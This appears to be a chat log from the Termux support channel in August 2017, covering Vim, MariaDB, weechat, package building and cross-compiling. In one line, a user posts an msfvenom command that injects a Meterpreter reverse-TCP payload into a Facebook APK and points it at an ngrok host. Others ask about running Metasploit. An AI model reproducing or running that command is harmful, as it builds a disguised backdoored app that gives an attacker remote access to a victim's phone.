2017-08-05 03:54:04	Regenaxer	Hi all! Since I few weeks I observe in Vim on Termux an annoying delay in shift-left commands (via '<'). Does anybody know the reason?

2017-08-05 04:51:49	live_the_dream	b31

2017-08-05 04:51:49	live_the_dream	fuck me...

2017-08-05 05:53:53	gitter	(themastersunil) https://imgur.com/gallery/BivL2 anyone solve this issue???

2017-08-05 05:57:50	gitter	(themastersunil) ??

2017-08-05 05:57:50	gitter	(themastersunil) ?

2017-08-05 06:19:07	gitter	(themastersunil) $ ./start.sh

2017-08-05 06:19:07	gitter	(themastersunil) proot warning: can't chdir("/root/.") in the guest rootfs: No such file or directory

2017-08-05 06:19:07	gitter	(themastersunil) proot info: default working directory is now "/"

2017-08-05 06:19:07	gitter	(themastersunil) [full message: https://gitter.im/termux/termux?at=59859b9b614889d4751e8c3c]

2017-08-05 06:23:47	endre	it's because of a bad shebang

2017-08-05 06:24:20	endre	there's a termux script to fix shebangs in other scripts

2017-08-05 06:32:44	gitter	(themastersunil) which script????

2017-08-05 06:32:46	gitter	(themastersunil) Tell me???

2017-08-05 06:50:20	gitter	(themastersunil) apt install coreutils

2017-08-05 07:07:03	gitter	(themastersunil) README.md  start.sh   ubuntu-fs  ubuntu.sh

2017-08-05 07:07:03	gitter	(themastersunil) $ ./start.sh

2017-08-05 07:07:03	gitter	(themastersunil) proot warning: can't chdir("/root/.") in the guest rootfs: No such file or directory

2017-08-05 07:07:03	gitter	(themastersunil) [full message: https://gitter.im/termux/termux?at=5985a6d6210ac26920571cdb]

2017-08-05 07:07:10	gitter	(themastersunil) Please solve

2017-08-05 08:04:21	gitter	(AshleyNykiel) termux-fix-shebang

2017-08-05 08:42:30	gitter	(themastersunil) $ ls

2017-08-05 08:42:30	gitter	(themastersunil) README.md  start.sh   ubuntu-fs  ubuntu.sh

2017-08-05 08:42:30	gitter	(themastersunil) $ ./start.sh

2017-08-05 08:42:30	gitter	(themastersunil) [full message: https://gitter.im/termux/termux?at=5985bd36c101bc4e3aeecebf]

2017-08-05 12:15:05	Regenaxer	Hi all! Since I few weeks I observe in Vim on Termux an annoying delay in shift-left commands (via '<'). Does anybody know the reason?

2017-08-05 12:15:27	Regenaxer	It is only on the Termux version of Vim as far as I can see

2017-08-05 12:16:02	Regenaxer	eg 3<< should shift immediately, no need to wait for one second as the command is complete

2017-08-05 12:16:27	Regenaxer	This happens with any combination of '<'

2017-08-05 12:16:55	Regenaxer	eg. <}

2017-08-05 12:26:08	Grimler	Regenaxer: open an issue at github: https://github.com/termux/termux-packages

2017-08-05 12:26:16	Grimler	Regenaxer*

2017-08-05 12:27:00	Regenaxer	Thanks, I thought maybe someone here uses Vim too

2017-08-05 12:27:35	Regenaxer	Seems not the case?

2017-08-05 12:30:05	Regenaxer	Another question: Are the key shortcuts in .termux/termux.properties documented somewhere? I use some since a long time, but I cannot find them documented ;)

2017-08-05 12:30:24	Grimler	Not me anyways. Could you explain a bit how to reproduce the erroneous behaviour? Should I just open vim, write some stuff and then do :3<< to have it lag?

2017-08-05 12:31:14	Regenaxer	yes, but not in the : command

2017-08-05 12:31:26	Grimler	in insert mode?

2017-08-05 12:31:41	Regenaxer	'<' shifts left, so it must be on a line which is indented

2017-08-05 12:31:47	Regenaxer	no, in command mode

2017-08-05 12:31:56	Regenaxer	The easiest is just <<

2017-08-05 12:32:05	Regenaxer	shifts the current line left

2017-08-05 12:32:20	Grimler	There's some documentation here: https://termux.com/configuration.html but maybe you knew that already

2017-08-05 12:32:42	Regenaxer	yes, right

2017-08-05 12:33:12	Regenaxer	there are also key shortcuts, like  shortcut.create-session

2017-08-05 12:33:46	Regenaxer	iirc fornwall told me them directly back then

2017-08-05 12:34:02	Regenaxer	Now I wonder if there are more of them

2017-08-05 12:34:43	Regenaxer	Currently I have these three:

2017-08-05 12:34:54	Regenaxer	shortcut.create-session = Ctrl + O

2017-08-05 12:34:54	Regenaxer	shortcut.previous-session = Ctrl + P

2017-08-05 12:34:54	Regenaxer	shortcut.next-session = Ctrl + N

2017-08-05 12:35:57	Grimler	Cool, I didn't know about this!

2017-08-05 12:36:31	Regenaxer	yes, would be good to be documented then :)

2017-08-05 12:37:10	Regenaxer	My desire would be one more, eg.  shortcut.toggle-session = Ctrl + Y

2017-08-05 12:37:34	Regenaxer	to switch quickly between the last two windows

2017-08-05 12:38:00	Regenaxer	So I wondered perhaps there is already something along that line

2017-08-05 12:40:58	Grimler	I'm not experiencing any delays when using :<< in vim on my device (if I'm doing it correctly)

2017-08-05 12:41:36	Regenaxer	ok, good to know. Perhaps it is a local problem

2017-08-05 12:41:46	Regenaxer	thanks for the test!

2017-08-05 12:42:08	Regenaxer	And thanks for the github idea

2017-08-05 12:42:20	Grimler	TermuxPreferences.java seem to be the file to look in for the shortcuts: https://github.com/termux/termux-app/blob/master/app/src/main/java/com/termux/app/TermuxPreferences.java seems to only be four of them

2017-08-05 12:42:36	Grimler	yeah np

2017-08-05 12:43:10	Grimler	the vim problem might be dependent on android version

2017-08-05 12:43:51	Regenaxer	yes, and "shortcut.rename-session"

2017-08-05 12:44:11	Grimler	exactly

2017-08-05 12:44:12	Regenaxer	I don't think it could depend on Android

2017-08-05 12:44:34	Regenaxer	ok, so from the source we see there are not more

2017-08-05 12:45:05	Regenaxer	Whe Vim thing must be a config issue

2017-08-05 12:45:47	Regenaxer	Some commands like 'g' expect further arguments, so they may wait, but for '<' this is not the case

2017-08-05 12:46:01	Regenaxer	'>' '>>' etc is immediate too

2017-08-05 12:46:20	Regenaxer	Perhaps a change in Vim

2017-08-05 12:46:33	Regenaxer	some command extension

2017-08-05 12:46:57	Regenaxer	Termux always has new versions of everything, which is awesome

2017-08-05 12:47:20	Grimler	Truely is awesome :)

2017-08-05 12:48:08	Grimler	Is there some debug mode for vim with which you can run it with default config? Could be useful to determine if the problem is related to your config

2017-08-05 12:48:52	Regenaxer	yes, I don't remember atm though

2017-08-05 13:06:59	frumpylava	As someone who never did android development, what would I need to do to compile Termux:API? I want to see if I can implement a few more commands. `termux-volume-[s|g]et`would be soo cool. The code doesn't seem that complicated.

2017-08-05 13:10:28	gitter	(vishalbiswas) get android studio, open project, it will automatically download all required deps

2017-08-05 13:20:59	frumpylava	@vishalbiswas thanks. I will try that.

2017-08-05 13:21:51	frumpylava	By the way, I put "termux-mpd-notifications" on github. https://github.com/Neo-Oli/termux-mpd-notifications It does the same as my previos program did for mpv, but for mpd. It displays notifications in the status bar about the playing music.

2017-08-05 13:37:35	frumpylava	Oh wait, will I need to compile the main termux app as well? Do the apks need to be signed by the same key?

2017-08-05 14:10:23	gitter	(AshleyNykiel) Are you able to change the MariaDB socket path and name to something like /data/data/com.termux/files/var/run/mysql/mysql.sock, my PID file already  lives in that directory as mysql.pid, though I made the necessary changes in my.cnf but it still puts the socket file in ../var/tmp, suggestions?

2017-08-05 15:49:25	frumpylava	If only my phone had GPIO pins...

2017-08-05 15:50:54	rods-tab3	get a PI 3 and install android 8 -- its got mucho pins

2017-08-05 16:05:05	frumpylava	rods-tab3: I've been thinking of building my own phone with a raspberry pi zero. It would still have to serve as my regular day phone.

2017-08-05 16:06:34	rods-tab3	does a raspberry have a phone modem ?

2017-08-05 16:10:39	frumpylava	no. but there are projects like the piphone that add it

2017-08-05 16:29:58	rods-tab3	It is possible to home-build a phone from open hardware and software.[9][10] The Arduinophone[10] (touchscreen) and the MIT DIY Cellphone (segmented display)[11][12] both use the Arduino open-hardware single-board computer, with added components. The PiPhone[13] and ZeroPhone[14] are similar, but based on the Raspberry Pi.

2017-08-05 16:29:59	rods-tab3	https://en.m.wikipedia.org/wiki/List_of_open-source_mobile_phones

2017-08-05 17:01:25	rods-tab3	the world has gone to the Dogs  http://www.davidhunt.ie/pi-rex-bark-activated-door-opening-system-with-raspberry-pi/

2017-08-05 17:02:53	rods-tab3	there should be an app   termux-bark-detect

2017-08-05 20:40:58	gitter	(AshleyNykiel) MariaDB - ERROR 2059 (HY000): Plugin unix_socket could not be loaded: dlopen failed: library "/data/data/com.termux/files/usr/lib/mysql/plugin/unix_socket.so" not found

2017-08-05 21:48:38	poyntz	hi. is there any way to run termux commands through tsu? (termux wrapper dor bash & su)? su commands work, termux get permission denied

2017-08-05 22:59:20	gitter	(Ashish882) Hi

2017-08-05 23:04:28	gitter	(Thatguy1114) How do you setup dotfiles?

2017-08-06 01:45:49	gitter	(vishalbiswas) @AshleyNykiel use `--socket=<filename>` option or add your changes to ~/.my.cnf

2017-08-06 01:46:12	gitter	(vishalbiswas) `/etc/my.cnf` or `/etc/mysql/my.cnf` are not read

2017-08-06 01:48:27	gitter	(vishalbiswas) @Thatguy1114 just like any linux distro

2017-08-06 01:48:56	gitter	(Thatguy1114) Thanks.

2017-08-06 05:07:55	mrjpaxton	Hey, I'm trying to run Weechat in termux, and I'm getting TLS certificate errors. Freenode uses Let's Encrypt, and apparently Termux does not have access to the path for these. I also tried installing ca-certificates, but to my understanding, those don't have the Let's Encrypt CA certs.

2017-08-06 05:45:06	QuerkyBren	hi

2017-08-06 05:45:30	QuerkyBren	i need help with using termux

2017-08-06 05:48:39	QuerkyBren	hi

2017-08-06 05:54:29	live_the_dream	?

2017-08-06 06:16:52	QuerkyBren	i need help with termux

2017-08-06 06:19:54	live_the_dream	>

2017-08-06 06:19:54	live_the_dream	what do you needD

2017-08-06 06:23:33	QuerkyBren	i cant run a c file

2017-08-06 06:23:35	QuerkyBren	i do e.g ./a.out

2017-08-06 06:23:47	QuerkyBren	and it says "permission denied"

2017-08-06 06:29:50	gitter	(vishalbiswas) QuerkyBren: you can only execute programs on your $HOME dir

2017-08-06 06:33:26	QuerkyBren	why

2017-08-06 06:39:08	Grimler	QuerkyBen: because of android, see for example https://android.stackexchange.com/questions/35658/adb-permission-denied-to-run-a-configure-file

2017-08-06 06:45:18	live_the_dream	its android security model

2017-08-06 07:45:33	gitter	(Auxilus) Can I use image as background for Termux ?

2017-08-06 07:54:10	gitter	(Auxilus) @vishalbiswas i think if we use `--depth 1` we get error for newly added gem dependencies in my script

2017-08-06 10:03:16	gitter	(spences10) Hi, how do I set up storage so I don't get permission errors using npm?

2017-08-06 10:04:33	gitter	(Auxilus) `termux-setup-storage`

2017-08-06 10:08:32	gitter	(spences10) Should it look like this now?

2017-08-06 10:08:32	gitter	(spences10) LD_LIBRARY_PATH=/data/data/com.termux/files/usr/lib

2017-08-06 10:08:32	gitter	(spences10) LANG=en_US.UTF-8

2017-08-06 10:08:32	gitter	(spences10) [full message: https://gitter.im/termux/termux?at=598722e0329651f46ef5b7c5]

2017-08-06 10:09:07	gitter	(spences10) Sorry about code wall

2017-08-06 10:11:18	gitter	(spences10) I'm still getting permission errors?

2017-08-06 10:48:03	alphacode567	hello

2017-08-06 10:55:39	alphacode567	anyone here

2017-08-06 11:49:34	gitter	(themastersunil) which script????

2017-08-06 11:49:35	gitter	(themastersunil) Tell me???

2017-08-06 11:49:35	gitter	(themastersunil)

2017-08-06 11:49:35	gitter	(themastersunil) [full message: https://gitter.im/termux/termux?at=59873a8e2723db8d5e7d0a75]

2017-08-06 13:07:43	gitter	(AshleyNykiel) @vishalbiswas Ive fixed the my.cnf socket path and name issue, now the problem is there is no file (plugin) named unix_socket.so anywhere?

2017-08-06 13:08:23	gitter	(AshleyNykiel) @themastersunil termux-fix-shebang

2017-08-06 13:15:04	gitter	(AshleyNykiel) @themastersunil Oops meant termux-fix-shebang start.sh ubuntu.sh

2017-08-06 15:01:19	gitter	(vishalbiswas) @AshleyNykiel when do you get that error and what is its purpose?

2017-08-06 15:14:28	gitter	(AshleyNykiel) @vishalbiswas The Unix_Socket authentication plugin allows users to use OS credentials to connect to MariaDB via Unix socket. The Unix_Socket authentication plugin only works when your Linux OS and MariaDB have a user account with the same username. With he Unix_Socket authentication plugin installed  I can log into MariaDB monitor as user u0_a84 without typing password because I already logged into Termux as user u0_a84.

2017-08-06 15:30:41	gitter	(TiberiumN) Hi guys! recently https://github.com/nim-lang/Nim/pull/5772 was merged in Nim language (it added full support for android via termux). Is it hard to make a termux package? nim has it's own build script (to build Nim out of pregenerated C sources)

2017-08-06 15:34:37	gitter	(TiberiumN) does termux docker image cross-compile all packages?

2017-08-06 17:10:12	gitter	(fornwall) @TiberiumN  yes, all packages are cross-compiled! See https://github.com/termux/termux-packages/blob/master/README.md to learn more

2017-08-06 17:32:49	gitter	(AshleyNykiel) @vishalbiswas here is more info regarding the unix_socket plugin: https://mariadb.com/kb/en/mariadb/unix_socket-authentication-plugin/

2017-08-06 18:25:47	live_the_dream	fornwall: im thinking it might be possible to have a termux android distro to run in emulator for builds....

2017-08-06 18:25:47	live_the_dream	the issue is of course that aarch64 would be slow as shit

2017-08-06 21:34:40	poyntz	hi. how are things?

2017-08-06 21:36:33	poyntz	is there a way to open an app at the command line using termux? for e.g, in bash/OSX open -a <app name> <file>  opens the file using the nominated app from /Applications/ directory.  Do you have something similar in termux.  I've seen termux-open and termux-share but all options just default the app based on filetype?

2017-08-06 21:38:40	poyntz	keen to nominate the app for certain filetypes b/c termux seems to default the app chooser for  .bashrc, .profile, etc. files to archive apps instead of the text editors ones

2017-08-07 02:05:45	gitter	(themastersunil) $ ls

2017-08-07 02:05:45	gitter	(themastersunil) CHAOS.go   LICENSE    README.md  content

2017-08-07 02:05:45	gitter	(themastersunil) $ go run CHAOS.go

2017-08-07 02:05:45	gitter	(themastersunil) [!] OS not supported!

2017-08-07 02:09:53	gitter	(themastersunil) $ cd termux-ubuntu

2017-08-07 02:09:53	gitter	(themastersunil) $ ls

2017-08-07 02:09:53	gitter	(themastersunil) README.md  start.sh   ubuntu-fs  ubuntu.sh

2017-08-07 02:09:53	gitter	(themastersunil) [full message: https://gitter.im/termux/termux?at=598804312723db8d5e7f60cf]

2017-08-07 02:52:23	Bqhwcwgwycw	#termux

2017-08-07 04:18:16	gitter	(Ashish882) /anybudy help

2017-08-07 04:18:56	gitter	(Ashish882) <code> $ ./msfvenom -x /sdcard/facebook.apk -p android/meterpreter/reverse_tcp LHOST=0.tcp.ngrok.io LPORT=14481 R >/sdcard/fb1.apk

2017-08-07 04:18:56	gitter	(Ashish882) fatal: Not a git repository (or any parent up to mount point /)

2017-08-07 04:18:56	gitter	(Ashish882) Stopping at filesystem boundary (GIT_DISCOVERY_ACROSS_FILESYSTEM not set).

2017-08-07 04:18:56	gitter	(Ashish882) [full message: https://gitter.im/termux/termux?at=5988226fc101bc4e3af5a703]

2017-08-07 04:20:39	gitter	(Ashish882) @Auxilus  @vishalbiswas

2017-08-07 05:08:41	mahabali	anybody running metasploit on termux?

2017-08-07 05:10:53	mahabali	ahem?

2017-08-07 05:18:22	gitter	(TiberiumN) well I don't

2017-08-07 05:18:24	gitter	(TiberiumN) because I have a VPS :)

2017-08-07 05:22:44	mahabali	VPS?

2017-08-07 05:23:00	gitter	(TiberiumN) virtual private server

2017-08-07 05:23:00	gitter	(TiberiumN)

2017-08-07 05:23:02	gitter	(TiberiumN) on windows azure

2017-08-07 05:25:25	mahabali	nice. so you cant hack on android.

2017-08-07 05:25:50	gitter	(TiberiumN) and why do I need it ?

2017-08-07 05:25:54	gitter	(TiberiumN) I can just SSH into my VPS :)

2017-08-07 05:25:58	mahabali	na. just asking.

2017-08-07 05:26:05	gitter	(TiberiumN) well you can

2017-08-07 05:26:08	gitter	(TiberiumN) at least with something like

2017-08-07 05:26:17	gitter	(TiberiumN) linux deploy

2017-08-07 05:26:17	gitter	(TiberiumN) (kali linux/ blackarch)

2017-08-07 05:26:22	frumpylava	mahabali: https://wiki.termux.com/wiki/Metasploit

2017-08-07 05:26:47	mahabali	im installing it on termux but currently facing a dependency issue.

2017-08-07 05:27:13	mahabali	rnacl libsodium is not getting installed.

2017-08-07 05:40:52	live_the_dream	k iv added some i686 packages... cargo rustc gcc-7 shortly

2017-08-07 10:15:41	gitter	(AshleyNykiel) @themastersunil the command you need to issue is: termux-fix-shebang *.sh

2017-08-07 10:38:12	gitter	(Auxilus) How do I use irc in Termux ?

2017-08-07 10:39:07	cottongin	Auxilus weechat

2017-08-07 10:39:59	gitter	(Auxilus) Ty

2017-08-07 10:41:29	gitter	(Auxilus) How do i join termux freenode irc channel?

2017-08-07 10:42:14	cottongin	/join #termux

2017-08-07 10:42:42	cottongin	assuming you've already connected to the freenode network

2017-08-07 10:42:51	gitter	(Auxilus) Okay mate, ty

2017-08-07 10:42:58	cottongin	np

2017-08-07 10:44:00	gitter	(Auxilus) irc: server freenode added

2017-08-07 10:44:00	gitter	(Auxilus)          │20:13:44 =!= | irc: command "join" must be

2017-08-07 10:44:00	gitter	(Auxilus)          │             | executed on irc buffer (server or

2017-08-07 10:44:00	gitter	(Auxilus)          │             | channel)

2017-08-07 10:44:15	gitter	(Auxilus) What do I do now?

2017-08-07 10:44:41	cottongin	gotta connect first

2017-08-07 10:44:48	cottongin	/connect freenode

2017-08-07 10:44:50	gitter	(Auxilus) How?

2017-08-07 10:45:34	u0_a96	123 123 test tesr

2017-08-07 10:45:46	gitter	(Auxilus) Oo nicee

2017-08-07 10:45:51	gitter	(Auxilus) Ok

2017-08-07 10:45:57	gitter	(Auxilus) How do i change username?

2017-08-07 10:45:59	cottongin	/nick your_desired_nick

2017-08-07 10:46:15	gitter	(Auxilus) K

2017-08-07 10:46:52	Auxilus	hey @cottongin ty for help man !

2017-08-07 10:46:58	cottongin	np Auxilus

2017-08-07 10:47:16	Auxilus	you on termux weechat or on web ?

2017-08-07 10:47:39	cottongin	weechat but not via termux

2017-08-07 10:47:53	Auxilus	kk

2017-08-07 10:48:15	Auxilus	exit

2017-08-07 10:48:32	cottongin	well, i should say i'm running termux but only to ssh into my VPS which is running weechat

2017-08-07 11:17:17	gitter	(Auxilus) Can I run tor relay on termux?

2017-08-07 11:20:31	gitter	(AshleyNykiel) Does anyone know if nvim was compiled with lua support?

2017-08-07 11:22:16	gitter	(AshleyNykiel) If there's no lua support could you please compile nvim with lua support an upload it to the termux repo?

2017-08-07 11:27:48	gitter	(vishalbiswas) @Auxilus `apt install tor`

2017-08-07 11:27:59	gitter	(Auxilus) Ye but

2017-08-07 11:28:13	gitter	(vishalbiswas) @Ashish882 keytool is a java app

2017-08-07 11:28:20	gitter	(Auxilus) I think we have to configure `torrc` to get it run as relay

2017-08-07 11:28:35	gitter	(vishalbiswas) Yes, read official docs then

2017-08-07 11:28:49	gitter	(vishalbiswas) There's a page that explains it

2017-08-07 11:28:49	gitter	(Auxilus) Also can i tunnel my apps through tor in termux?

2017-08-07 11:29:05	gitter	(Auxilus) Ye @vishalbiswas imma take a look at 'em

2017-08-07 11:30:01	gitter	(Auxilus) Can I?

2017-08-07 11:30:10	gitter	(vishalbiswas) @Auxilus ngrok?

2017-08-07 11:30:32	gitter	(vishalbiswas) "Tunnel"?

2017-08-07 11:31:09	gitter	(Auxilus) Ye like force all the traffic from my device through tor

2017-08-07 11:31:44	gitter	(Auxilus) ngrok ye, i think i have to forward the port

2017-08-07 11:43:15	gitter	(vishalbiswas) Not possible to route evrything through termux yet

2017-08-07 11:43:46	gitter	(Auxilus) Kk

2017-08-07 12:26:12	gitter	(mklein994) @fornwall `cmark` is at 0.28.0; a really easy fix.

2017-08-07 13:57:41	gitter	(fornwall) @mklein994 updating cmark to 0.28.0?

2017-08-07 14:06:08	gitter	(Auxilus) Will the termux-styling apk on f-droid work?

2017-08-07 14:06:26	gitter	(Auxilus) Also do we have to sign the apk before installation?

2017-08-07 14:06:39	gitter	(vishalbiswas) you need same signature on both main app and styling app

2017-08-07 14:06:54	sdrausty	It should. Did you download the main app from f-droid?

2017-08-07 14:07:07	gitter	(Auxilus) There is pgp signature on fdroid

2017-08-07 14:07:09	gitter	(Auxilus) https://f-droid.org/repo/com.termux.styling_17.apk.asc

2017-08-07 14:07:16	gitter	(Auxilus) No @sdrausty

2017-08-07 14:07:19	gitter	(vishalbiswas) not that

2017-08-07 14:07:25	gitter	(Auxilus) I downloaded it from play store

2017-08-07 14:07:30	gitter	(vishalbiswas)  download both from f-droid

2017-08-07 14:07:36	gitter	(Auxilus) Okay

2017-08-07 14:08:02	sdrausty	Either f-droid or Gplay. Don't mix and match.

2017-08-07 14:08:07	gitter	(Auxilus) Is there any way to backup my termux data and restore it?

2017-08-07 14:08:26	gitter	(Auxilus) Okay @sdrausty ill download both from fdroid

2017-08-07 14:08:58	gitter	(vishalbiswas) titanium backup

2017-08-07 14:09:34	gitter	(Auxilus) Can i restore it again?

2017-08-07 14:09:42	Entroacceptor	hey, I'd like to have something akin to termux-dialog, but instead of giving a password prompt opens up a menu

2017-08-07 14:09:51	sdrausty	Use zip @Auxilus

2017-08-07 14:10:05	gitter	(Auxilus) K

2017-08-07 14:12:59	gitter	(Auxilus) Titanium backup need root

2017-08-07 14:13:16	gitter	(vishalbiswas) thought you had it

2017-08-07 14:13:37	gitter	(Auxilus) Nay :p

2017-08-07 14:16:05	gitter	(pizzapanther) trying to get uwsgi to build with my python app and i get ` ./uwsgi.h:212:10: fatal error: 'sys/sem.h' file not found`

2017-08-07 14:16:21	gitter	(pizzapanther) anyone know a way to get that installed in the right location?

2017-08-07 14:16:47	gitter	(vishalbiswas) sysv semaphores aren't available in android

2017-08-07 14:18:25	gitter	(vishalbiswas) which android version though? it was later supported i think

2017-08-07 14:19:13	gitter	(pizzapanther) i'm on a chromebook pixel so i think that is the latest android

2017-08-07 14:20:32	gitter	(pizzapanther) ok found it, 6.0.1

2017-08-07 14:20:54	sdrausty	@pizzapanther try `termux-info`

2017-08-07 14:21:27	gitter	(pizzapanther) ```

2017-08-07 14:21:27	gitter	(pizzapanther) Termux version:

2017-08-07 14:21:27	gitter	(pizzapanther) <=0.48

2017-08-07 14:21:27	gitter	(pizzapanther) [full message: https://gitter.im/termux/termux?at=5988afa64bcd78af562097f5]

2017-08-07 14:21:30	gitter	(Auxilus) I cant install termux downloaded frm fdroid

2017-08-07 14:23:17	gitter	(pizzapanther) so am I SOL for now?

2017-08-07 14:23:45	gitter	(vishalbiswas) you can try using a sem.h from bionic sources

2017-08-07 14:24:22	gitter	(vishalbiswas) do you have linux/sem.h?

2017-08-07 14:24:29	sdrausty	https://f-droid.org/packages/com.termux/

2017-08-07 14:24:41	gitter	(vishalbiswas) if yes, then that has all the function prototypes

2017-08-07 14:24:45	gitter	(pizzapanther) yes found `/data/data/com.termux/files/usr/include/linux/sem.h`

2017-08-07 14:25:06	gitter	(vishalbiswas) then just create a sem.h and include linux/sem.h

2017-08-07 14:25:06	gitter	(pizzapanther) if i make a symbolic link maybe it will compile?

2017-08-07 14:25:06	gitter	(Auxilus) @vishalbiswas it says failed to installed due to unknown error

2017-08-07 14:25:26	gitter	(vishalbiswas) @Auxilus first install termux main app, then styling

2017-08-07 14:25:54	gitter	(Auxilus) Ye, main app itself is showing error

2017-08-07 14:26:18	gitter	(vishalbiswas) uninstall old one first

2017-08-07 14:26:21	sdrausty	Did you uninstall you Gplay version?

2017-08-07 14:26:22	gitter	(Auxilus) I did

2017-08-07 14:26:49	sdrausty	and any addons?

2017-08-07 14:27:01	gitter	(Auxilus) Ooo sry

2017-08-07 14:27:09	gitter	(Auxilus) I had api still installed

2017-08-07 14:27:22	gitter	(Auxilus) Ty mab

2017-08-07 14:27:26	gitter	(Auxilus) Installed now

2017-08-07 14:28:01	sdrausty	good

2017-08-07 14:30:06	gitter	(vishalbiswas) @pizzapanther but you won't be able to use them

2017-08-07 14:30:14	gitter	(vishalbiswas) ```

2017-08-07 14:30:14	gitter	(vishalbiswas) int semctl(int, int, int, ...) __INTRODUCED_IN(26);

2017-08-07 14:30:14	gitter	(vishalbiswas) int semget(key_t, int, int) __INTRODUCED_IN(26);

2017-08-07 14:30:14	gitter	(vishalbiswas) [full message: https://gitter.im/termux/termux?at=5988b1b676a757f80882286f]

2017-08-07 14:30:50	gitter	(vishalbiswas) see those `__INTRODUCED_IN(26)`

2017-08-07 14:31:14	gitter	(pizzapanther) actually uwsgi is only for production so i just need to fool into installing the package

2017-08-07 14:31:30	gitter	(pizzapanther) i don't need it to run

2017-08-07 14:32:01	gitter	(vishalbiswas) @pizzapanther whatever works then ;)

2017-08-07 14:33:04	sdrausty	Can someone try the -j option "specify a jar or zip file containing classes to include" in aapt package? aapt states "Including resources from package:[*.jar]" but is it really including them while packaging?

2017-08-07 14:35:44	sdrausty	on device in Termux, please.

2017-08-07 14:40:03	gitter	(pizzapanther) @vishalbiswas compiles further but i still get

2017-08-07 14:40:08	gitter	(pizzapanther) ```

2017-08-07 14:40:08	gitter	(pizzapanther) core/utils.c:295:15: error: use of undeclared identifier 'caps'

2017-08-07 14:40:08	gitter	(pizzapanther)             cap_set_flag(caps, CAP_PERMITTED, 4, minimal_cap_values, CAP_SET);

2017-08-07 14:40:08	gitter	(pizzapanther) ```

2017-08-07 14:43:42	gitter	(Auxilus) What is   .shortcuts?

2017-08-07 14:45:54	rods-tab3	for termux widgets

2017-08-07 16:04:36	gitter	(mklein994) @fornwall yeah; I can't update myself right now; but from what I can tell, there isn't any crazy changes from 0.27.1. I only know that it's updated because it was in Arch Linux.

2017-08-07 16:12:50	gitter	(fornwall) @mklein994 thanks, it's updated now!

2017-08-07 17:55:45	icebal	Anyone try to automate termux with Automate?

2017-08-07 18:21:20	live_the_dream	ghostscript doesn't compile on x86 s6uff Grimler ... nothing to do with your headers its thr configure process

2017-08-07 20:06:30	--	CTCP requested by BeansnRice: PING 1502150785 270851

2017-08-07 20:06:30	--	CTCP reply to BeansnRice: PING 1502150785 270851

2017-08-07 21:52:28	gitter	(vishalbiswas) @pizzapanther I'll try to compile it myself. You are trying with python, right?

2017-08-07 23:57:51	aleph-	Anybody using ruby? Trying to get nokogiri to compile correctly in termux.

2017-08-08 01:29:47	BenL90	hello i wanted to ask.I use termux a lot,but I couldn't find any hotkey to switch between terminal on termux. Is there anyway to work on it?

2017-08-08 01:30:05	BenL90	thanks.

2017-08-08 01:38:15	BenL90	hello

2017-08-08 01:38:20	BenL90	anyone?

2017-08-08 01:44:07	rods-tab3	the help file lists the hotkeys

2017-08-08 02:00:47	vishalbiswas	aleph there are multiple issues regarding nokogiri at termux-packages repo

2017-08-08 02:20:19	Grimler	live_the_dream: Hm, I thought I tried compiling it for all arches. What was the error, did you fix it?

2017-08-08 02:21:13	live_the_dream	it says i5 can't find -ljpeg

2017-08-08 02:21:13	live_the_dream	its because its x86 compiling for x86 etc

2017-08-08 02:21:29	live_the_dream	same thing occured with nodejs 8

2017-08-08 02:22:28	live_the_dream	hmmm trying to get brand new llvm fortran compiler working...

2017-08-08 02:23:48	Grimler	ah, so we need libjpeg for x86 installed?

2017-08-08 02:24:15	live_the_dream	i wish fornwall would talk to me about nodejs since i got newer versions working.

2017-08-08 02:25:16	live_the_dream	yeah

2017-08-08 02:27:36	live_the_dream	and libexpat-dev

2017-08-08 02:28:19	live_the_dream	@fornwall ... ?

2017-08-08 02:34:52	vishalbiswas	live_the_dream: did it also fix all those awful permissiin error?

2017-08-08 02:49:51	live_the_dream	?

2017-08-08 03:05:05	gitter	(themastersunil) apt install proot

2017-08-08 03:05:05	gitter	(themastersunil) Reading package lists... Done

2017-08-08 03:05:05	gitter	(themastersunil) Building dependency tree

2017-08-08 03:05:05	gitter	(themastersunil) [full message: https://gitter.im/termux/termux?at=598962a0c101bc4e3afa4d6c]

2017-08-08 03:05:29	gitter	(themastersunil) Please anyone fix it????

2017-08-08 03:25:53	vishalbiswas	live_the_dream: try creating an ionic tutorial project in home dir. you'll get permission denied /data/data

2017-08-08 04:31:21	gitter	(vishalbiswas) ```gdb

2017-08-08 04:31:21	gitter	(vishalbiswas) 2017-08-08T14:00:46.067+0530 I CONTROL  [main]

2017-08-08 04:31:21	gitter	(vishalbiswas) 2017-08-08T14:00:46.067+0530 W CONTROL  [main] 32-bit servers don't have journaling enabled by default. Please use --journal if you want durability.

2017-08-08 04:31:21	gitter	(vishalbiswas) [full message: https://gitter.im/termux/termux?at=598976d91c8697534a9a59c3]

2017-08-08 05:16:05	live_the_dream	sounds like there is a path that is just assumed ...

2017-08-08 05:16:23	fornwall	live_the_dream: sorry, been away! I'm ready to talk nodejs and libexpat-dev now :)

2017-08-08 05:17:07	live_the_dream	yeah so i came up with the idea of preventing the local build gcc getting bad cross compile args

2017-08-08 05:17:13	live_the_dream	so im building consistently

2017-08-08 05:17:23	live_the_dream	but that is the first part

2017-08-08 05:18:13	fornwall	for the nodejs build of mkpeephole?

2017-08-08 05:18:19	live_the_dream	yeah

2017-08-08 05:18:27	live_the_dream	nodejs-current

2017-08-08 05:19:20	live_the_dream	so basically script calls gcc instead of gcc directly and removes -I/data/data/com.termux/files/usr/include and -L$PREFIX/lib

2017-08-08 05:20:10	live_the_dream	so setting up build env is a tad finicky

2017-08-08 05:20:10	live_the_dream	..

2017-08-08 05:21:39	fornwall	right, it's a bit messy with nodejs/v8 builds the mkpeephole part

2017-08-08 05:21:47	fornwall	perhaps it would be enough to patch the file

2017-08-08 05:21:48	fornwall	out/deps/v8/src/mkpeephole.host.mk

2017-08-08 05:21:52	fornwall	which is generated after configure

2017-08-08 05:24:13	live_the_dream	that is the thing though ... its totally designed without cross compiling in mind

2017-08-08 05:24:26	live_the_dream	so there is no consistency with how things are handled

2017-08-08 05:28:17	live_the_dream	yeah but iv got it built

2017-08-08 05:29:18	live_the_dream	so even though what i am doing is a large cluster fuck of a hack

2017-08-08 05:29:18	live_the_dream	im actually running it on all 4 archs

2017-08-08 05:32:44	fornwall	nice! so building for 32-bit arm and i686 requires installing some 32-bit development packages?

2017-08-08 05:34:24	live_the_dream	yeah

2017-08-08 05:34:24	live_the_dream	it demands cross compiling 32 bith with 32 bit

2017-08-08 05:34:24	 *	live_the_dream shrugs

2017-08-08 05:34:28	live_the_dream	it also assumes the same c++ lib used in both tool chains

